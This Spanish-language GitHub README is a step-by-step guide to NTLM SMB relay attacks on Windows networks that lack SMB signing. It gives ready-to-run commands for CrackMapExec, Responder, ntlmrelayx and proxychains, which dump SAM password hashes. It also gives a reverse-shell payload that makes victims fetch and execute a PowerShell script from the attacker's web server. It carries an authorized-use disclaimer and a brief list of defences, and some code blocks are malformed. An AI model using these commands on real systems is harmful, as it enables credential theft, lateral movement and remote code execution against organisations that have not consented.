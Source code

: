 # NTLM SMB Relay Attack Guide

## 📌 Descripción
Guía técnica para realizar ataques de **NTLM Relay** contra sistemas Windows con SMB signing deshabilitado, permitiendo ejecución remota de comandos, robo de hashes y movimiento lateral.

![imagen](https://github.com/90l3m0np13/NTLM-SMB-RELAY/blob/main/Imagen.jpeg)

## ⚠️ Requisitos Legales
- **Solo para pentesting autorizado o entornos de laboratorio**.  
- Nunca atacar sistemas sin permiso explícito.

---

## 🔧 Herramientas Necesarias
- **Kali Linux** (o distribución con herramientas preinstaladas).  
- **Impacket**: `sudo apt install impacket`.  
- **CrackMapExec**: `sudo apt install crackmapexec`.  
- **Responder**: `sudo apt install responder`.  

---

## 🚀 Pasos del Ataque

### 1️⃣ Identificar sistemas vulnerables
```bash
crackmapexec smb 192.168.1.0/24 --gen-relay-list targets.txt
````
   
Salida esperada:
SMB   192.168.1.10    SIGNING:Not enforced  # ¡Vulnerable!

2️⃣ Configurar targets.txt
plaintext
Copy

smb://192.168.1.10
smb://192.168.1.20

3️⃣ Desactivar SMB/HTTP en Responder
 ```bash
/etc/responder/Responder.conf:
````
SMB = Off
HTTP = Off

4️⃣ Iniciar NTLM Relay
````bash
impacket-ntlmrelayx -smb2support -tf targets.txt -socks -debug
````
5️⃣ Iniciar Responder (en otra terminal)
```bash
sudo responder -I eth0
````

6️⃣ Explotación con ProxyChains

Editar socks4 127.0.0.1 1080
```bash
/etc/proxychains4.conf:
````
7 Poner la máquina en escucha con netcat
```bash
netcat -lvp 5555
````

## 💣 Paso clave: Forzar autenticación

## Ejecutar esto en CMD de la víctima:
```bash
net use \\192.168.1.100\fake-share /u:fakeuser fakepass
````
## O intentar acceder manualmente a:
```bash
\\192.168.1.100\carpeta-falsa
````
## 🎯 Explotación exitosa
## Cuando veas esto en ntlmrelayx:
[+] Authenticated against 192.168.1.10 (Windows 10)

## Opción A: Robar hashes
````bash
proxychains4 crackmapexec smb 192.168.1.10 -u '' -p '' --sam
````
## Opción B: Reverse Shell
## 1. Hostear shell.ps1 (Terminal 3)
```bash
python3 -m http.server 8000
````
## 2. Ejecutar relay con payload
```bash
impacket-ntlmrelayx -smb2support -tf targets.txt -c "powershell -c \"IEX(New-Object Net.WebClient).DownloadString('http://TU_IP:8000/shell.ps1')\""
````

## 🔒 Medidas de protección
- Activar SMB Signing (GPO)
- Deshabilitar NTLM
- Bloquear tráfico SMB no esencial
- Monitorear eventos 4624 (Windows) con autenticaciones inusuales

⚠️ IMPORTANTE: Este ataque solo funciona si:
- La víctima tiene privilegios de administrador
- El servicio SMB está activo
- No hay SMB signing habilitado


